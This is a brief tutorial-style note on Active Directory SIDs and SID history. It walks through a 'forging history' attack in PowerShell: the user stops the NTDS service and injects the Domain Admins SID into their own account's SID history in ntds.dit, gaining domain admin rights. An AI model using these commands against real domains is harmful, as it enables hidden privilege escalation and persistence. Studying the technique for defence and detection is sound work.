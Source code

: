 > SID in AD

In an Active Directory (AD) environment, a Security Identifier (SID) is a unique identifier used to manage security principals like users, groups, and computer accounts. SIDs are crucial for controlling access to resources and for maintaining security in a Windows environment.

> SID History

When an organization migrates from one domain to another, SID history allows users to retain access to resources in the old domain while they are gradually transitioned to the new domain. 

**Forging History**

The goal here is fetch the SID of any admin groups to add this SID to our SID history.
Before we start we need to make sure our account does not have any information in their SID history:
```
PS C:\> Get-ADUser <your ad username> -properties sidhistory,memberof
```
Let's get the SID of the Domain Admins group since this is the group we want to add to our SID History:
```
Get-ADGroup "Domain Admins"
```
then:
```
Stop-Service -Name ntds -force 
Add-ADDBSidHistory -SamAccountName 'our username' -SidHistory 'SID of domain admin for example' -DatabasePath C:\Windows\NTDS\ntds.dit 
Start-Service -Name ntds 
```
Now we become member of the domain admins group
> note

This attack need administrative access to perform.








